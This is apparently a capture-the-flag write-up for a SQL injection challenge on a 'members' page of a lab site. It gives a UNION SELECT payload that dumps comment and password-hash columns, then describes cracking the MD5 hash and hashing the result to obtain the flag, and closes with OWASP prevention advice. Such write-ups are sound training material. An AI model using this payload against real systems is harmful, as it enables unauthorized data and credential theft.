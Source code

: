 # 08_members_sql_injection

## Instructions to reproduce

In the MEMBERS sections using this sql injection:
```
1 AND 1=2 UNION SELECT Commentaire, countersign FROM Member_Sql_Injection.users;
```
We see a user with id 5 that is named 'Get The Flag' that has:
- **countersign**: 5ff9d0165b4f92b14994e5c685cdce28 
- **Commentaire**: Decrypt this password -> then lower all the char. Sh256 on it and it's good !

If we convert using MD5 we get **FortyTwo** and converting to Sha256 we get the flag.

## How to prevent

The preferred option is to use a safe API, which avoids using the interpreter entirely, provides a parameterized interface, or migrates to Object Relational Mapping Tools (ORMs).

[OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)